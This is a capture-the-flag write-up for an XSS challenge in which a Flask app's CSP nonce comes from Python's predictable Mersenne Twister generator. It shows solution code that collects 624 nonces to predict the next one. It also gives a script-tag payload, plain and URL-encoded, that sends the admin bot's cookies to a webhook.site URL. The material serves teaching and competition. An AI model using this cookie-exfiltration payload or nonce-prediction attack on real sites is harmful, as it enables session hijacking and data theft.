

so this was my contribution to the DEFENSYS 2024 CTF, and i created a web+crypto chall named KrySS and its an XSS chall but with an insecure CSP rule

### description:
	they told me XSS is very dangerous so i made a very secure website that will make XSS useless

## what you will learn:

* the nonce csp rule
* the Mersenne Twister PRNG algorithm 


## the solution


in the / route we got this page and a button that should give us a cookie, and when click on it we got the following :


and its a unique userId (we will see later what this is used for)


and by looking at the cookies in devtools we see that we successfully got one, but what can we do with it, lets read the code and see

## Code analysis

#### The `/getcookie` route:
```python
Users = {}

@app.route('/getcookie', methods=['POST', 'GET'])
def setcookie():
	# this is just to generate a random userId
	user = str(uuid.uuid4())
	session["userId"] = user
	R = random.Random()
	Users[user] = R
	resp = make_response(f"your cookie has been set use it now to continue the challenge and your unique id is : {user}")
	return resp
```
in this endpoint we generate a unique userId and a `Random` object from the `Random` class in `random` module then map that `userId` with the `Random` object in the `Users` dictionary and we return the uniqe `userId` in response

### The `/hello` route
```python
@app.route("/hello")
def hello_world():
	try:
		user = session["userId"]
	except:
		user = request.args.get("userId", '')
	msg = request.args.get('msg', '')
	if user is None:
		return "You did not set any cookie go back to main page and set one"
	elif user not in Users:
		return "the userId you entered is no set go to /getcookie to take your cookie and set a new userId"
	else:
		R = Users[user]
	nonce = hex(R.getrandbits(32))[2:]
	resp = make_response(f"<p>Hello, {msg}</p>")
	resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
	return resp
```
at the beginning of this function we grab the userId either from cookies in the session object (the cookie we got in the `/getcookie` route)  or just enter it in the requests arguments.
but that `userId` should be already initialized (wich means it should be already in the Users dict) so a valid `userId` should be the one returned from `/getcookie`

and here comes the most important part of the chall:
```python
nonce = hex(R.getrandbits(32))[2:]
resp = make_response(f"<p>Hello, {msg}</p>")
resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
```
the server generate a random 32 bits number and convert it to hex in the nonce variable, also see that the `R` variable is the object we got from the `Users`  dict with the `userId` as key
we see and obvious XSS vulnerability
BUUUT we have a problem here we cant just have XSS because we have the `'Content-Security-Policy'` header wich will set some rules that will stop us from having an easy XSS

## Escape the Matrix, i mean the CSP 😅
### but what is CSP ?
csp (Content security policy) is a security mechanism that protect against XSS by putting some rules that will strict the uses of javascript  
```
Content Security Policy: is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.
```
this is the definition in : https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

and here is a good resource to better understand this concept: https://portswigger.net/web-security/cross-site-scripting/content-security-policy

### The `script-src 'nonce-{nonce}';` rule

what this rule does is that it tells the browser to only execute `<script>` tags that have the  `nonce`  attribute in it equal to the one generated by the server 
* Example:
if `nonce = afe4a1b2`
then the csp rule will be : `script-src 'nonce-afe4a1b2';` and the browser will only execute script tags that have `nonce` attribute equal to `afe4a1b2`:
```html
<script nonce="afe4a1b2">alert()</script>
```
so the goal of the challenge is to predict the next nonce random value

### Predicting the nonce

the way how the nonce is generated is by mapping each user to a `Random` object so each user will have a unique random sequence but can we predict each users sequence, if the `Random` use a predictable PRNG we can predict the n-th `nonce` by getting all n-1 `nonce`s, and fortunately the `Random` object uses a predictable PRNG which is : `Mersenne Twister`

resource if you wanna understand the Mersenne Twister PRNG deeper: 
* https://cryptopals.com/sets/3/challenges/23
* https://cryptopals.com/sets/3/challenges/22

but we can use a tool for that:
* https://github.com/tna0y/Python-random-module-cracker: and it requires 624 random value to predict the next one so we will have to collect 624 `nonce`

### Where is the flag ?
by looking at the bot.py source code of the bot admin we will notice that this is a headless chrome browser that will visit a url, and it puts the flag in cookies but those cookies will be accessible only when using the challenges domain

## Final solution

* create a webhook that we will use to leak us the flag : using this site https://webhook.site/, copy the url of the webhook
* create a user and take its userID:
	```python
	r = S.get(url+"/getcookie")
	userid = r.text.strip()[-36:]
	```
* take all the 624 nonce by requesting the `/hello` endpoint that will return the nonces in header, and predict the 625-th nonce using randcrack
```python
	rc = RandCrack()
	for _ in range(624):
		r = S.get(url+"/hello?msg=a")
		csp_header = r.headers["Content-Security-Policy"]
		print(csp_header)
		rc.submit(int(csp_header[18:-2], 16))
	nonce = hex(rc.predict_getrandbits(32))[2:]
	print(f"predicted value is : {nonce}")
```
* use the nonce we predicted in the `nonce` attribute of the `<script>` tag to execute javascript, and make a fetch (or XHR ) request to our webhook  to leak the flag (that will be in the bot's cookies)

```html
<script nonce="XXXXXX">fetch("https://webhook.site/zzzz...yyyy/flag?flag="+document.cookie,{{"mode":"no-cors"}})</script>
```
url encode this XSS payload using any online urlencoder then put it in the `msg` parameter and put the userId that we got in the `userId`  parameter (this step is so important)
* final payload should look something like this: `?http://127.0.0.1:8080/report?msg=%3Cscript%20nonce%3D%22XXXXXX%22%3Efetch%28%22https%3A%2F%2Fwebhook%2Esite%2Fzzzz%2E%2E%2Eyyyy%2Fflag%3Fflag%3D%22%2Bdocument%2Ecookie%2C%7B%7B%22mode%22%3A%22no%2Dcors%22%7D%7D%29%3C%2Fscript%3E&userId=52b73ef5%2D7f86%2D4892%2Dbd39%2D120ed0269c51
* full payload generator will be in the [(exploit.py)[exploit.py]]
* submit that url to the admin bot
* and then get the flag from the webhook


